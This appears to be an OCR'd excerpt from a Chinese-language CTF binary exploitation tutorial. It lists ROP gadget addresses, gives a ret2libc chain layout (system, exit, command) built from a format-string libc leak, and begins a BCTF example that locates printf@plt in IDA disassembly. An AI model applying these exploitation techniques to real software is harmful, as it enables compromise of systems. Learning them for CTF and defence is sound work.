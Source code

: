 $ ropgadget

ret = 0x80486a2

popret =0x80486b9

pop2ret = 0x804930e

pop3ret = 0x804930d

pop4ret = 0x804930c

leaveret = 0x80488d8

addesp_12 = 0x80486b6

addesp_28 = 0x8049309



构造ROP 链的方法有很多种，其中最基本的形式如下

ROP_CHAIN = SYSTEM_Addr + EXIT_Addr + CMD_Addt + CMD

注：SYSTEM_Addr 和EXIT_Addr 通过格式化漏洞读取栈内泄漏的Libc 库地址和给定的Libc

文件计算出具体的内存地址。 







### 示例 BCTF

例如某个实例，目标程序使用了printf来输出，所以在PLT里有printf，而printf@plt 的地址(0x8048650)不会受ASLR 的影响，所以可以利用printf 来输出所需要的那些信息。



注：这里printf@plt 的地址(0x8048650)地址的确定，将目标程序载入IDA，双击左侧函数列表里的_printf函数(注意这里不是printf，函数列表里另有一项printf，事实上是_printf通过jmp指令调到printf，printf再调用got中的printf地址，参见下面的IDA代码片段)，该函数地址即是0x8048650



.plt:08048650 ; int printf(const char *format, ...)

.plt:08048650 _printf     proc near        ; CODE XREF: handler+15

.plt:08048650                     ; list_all_entry+F4 ...

.plt:08048650         jmp   ds:off_804C4E0

.plt:08048650 _printf     endp



extern:0804DAA0 ; int printf(const char *format, ...)

extern:0804DAA0         extrn printf:near    ; CODE XREF: _printf

extern:0804DAA0                     ; DATA XREF: .got.plt:off_804C4E0



.got.plt:0804C4E0 off_804C4E0   dd offset printf    ; DATA XREF: _printf

